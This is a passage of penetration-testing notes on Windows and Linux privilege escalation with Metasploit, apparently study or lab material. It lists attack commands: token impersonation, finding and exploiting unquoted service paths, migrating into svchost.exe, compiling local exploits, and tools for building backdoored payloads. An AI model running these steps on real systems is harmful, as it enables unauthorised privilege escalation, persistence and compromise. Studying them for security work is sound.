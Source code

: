   
\`post/multi/recon/local\_exploit\_suggester\` will also list some attacks that can help exploit the session.  
To impersonate other valid users: - \`incognito\` - \`list\_tokens\` - \`impersonate\_token els\\\els\`  

Unquoted service path can be used for persistence as well privilieage escalation.  
For example: C:/Program Files/Adobe Files/ps.exe is an unqouted service path. Then we can place a shell code like shown below like below:

- C:/Program.exe
- C:/Program Files/Adobe.exe

To find unquoted services path: `wmic service get name, displayname, pathname, startmode | findstr /i "auto" | findstr /i /v "/c:\windows\\" | findstr /i /v """"`  
`use exploit/windows/local/trusted_service_path` can also be used to automatically exploit unquoted service path via metasploit.  
`sc stop [service_name]`  
`sc start [service_name]`  
`icacls` use it for finding file permission in a windows folder.  
`set AutoRunScript migrate -n svchost.exe` if get unstable and timeout error.

  
\*\*Linux Privilege escalation\*\*

First check Linux Privilege Escalation notebook for better ways:  
`run post/linux/gather/enum_system` then check google for some valid privilege escalation for paticular version found.  
The finded code can be compliled on the target if there is a compiler else compile in our machine with proper parameter to match architecture of the target machine then upload it and run.  
For example, a machine with "SMP Debian 4.0.4-1+kali2 (2015-06-03) x86_64 GNU/Linux"  
`gcc -m32 -o shell shell.c`  
  
  
To create payload we can use msfvenom, [shellter](https://www.shellterproject.com/introducing-shellter/), [BDF](https://github.com/secretsquirrel/the-backdoor-factory)  
  
  
**Maintaining Access**

![new.png](Pictures/a3.png)
